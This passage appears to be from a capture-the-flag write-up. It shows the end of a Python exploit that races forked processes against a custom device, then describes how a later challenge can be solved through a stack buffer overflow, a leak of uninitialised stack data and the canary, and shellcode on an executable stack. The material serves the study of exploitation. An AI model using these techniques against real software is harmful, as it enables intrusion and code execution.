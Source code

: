 ```python
    buf += b'\x80'  # new counter
    # buf += b'\x00' * (MAX_YANCODE_SIZE - len(buf))
    load_program(r0, 15, buf)

    # Load programs
    load_program(r1, r1_program, yancode)
    load_program(r2, r2_program, yancode)
    load_program(r3, r3_program, adjusted_yancode)
    # Load program for main thread
    init_ypu(r1, target_ypu, r1_program)

    # Execute race!
    # TODO: change yancode, so that it would verify 'p' resides with the buffer before writing it
    pid1 = os.fork()
    if pid1 == 0:
        # Child 1
        for _ in range(iterations):
            # log.info("Running r1..")
            run_ypu(r1, target_ypu, batch)
        os.kill(os.getpid(), signal.SIGKILL.value)
    else:
        # Parent    
        pid2 = os.fork()
        if pid2 == 0:
            # Child 2
            for _ in range(iterations):
                # log.info("Running r2..")
                init_ypu(r2, target_ypu, r2_program, batch)
            os.kill(os.getpid(), signal.SIGKILL.value)
        else:
            # Parent
            for _ in range(iterations):
                # log.info("Running r3..")
                init_ypu(r3, target_ypu, r3_program, batch)

    os.waitpid(pid1, 0)
    os.waitpid(pid2, 0)
    
    p.interactive()
```


## Challenge 5

This stage is similar to 3, but this time a whole new process, not thread, handles every new connection - one at a time. This means no new connection would be accepted, until the preceding child process have terminated (or sent some signal). Since the mapping was initialized via `MAP_SHARED`, the `mmap`'ed regions are STILL being shared.\
Moreover, `load_program` handler now loads the program to a process stack buffer, which is a total of size `256 * 16`. However, notice that since we can supply up to index `16`, theres a buffer overflow vuln here, as we can reach a total offset of `48 * 16 * 16`. In addition, this buffer seems uninitialized prior to calling `load_program` - hence we are able to leak its content, writing it to some `mmap`ed region. By carefully designing the yancode for this stage, we can easily write these bytes to some output file, having large stack leakage of our wish (including the stack's canary). \
Interestingly, according to `checksec`, the binary has an executable stack. This means that we can store our shellcode there, and to return into it. There's actually other good candidates besides the process's stack to store our shellcode at - all we have to obtain is a libc leakage. By doing so, we actually fallback to challenge 2 - where we could execute our desired shellcode, which included the `fork` syscall (this time we'll have to use `clone`, which is actually more generic). \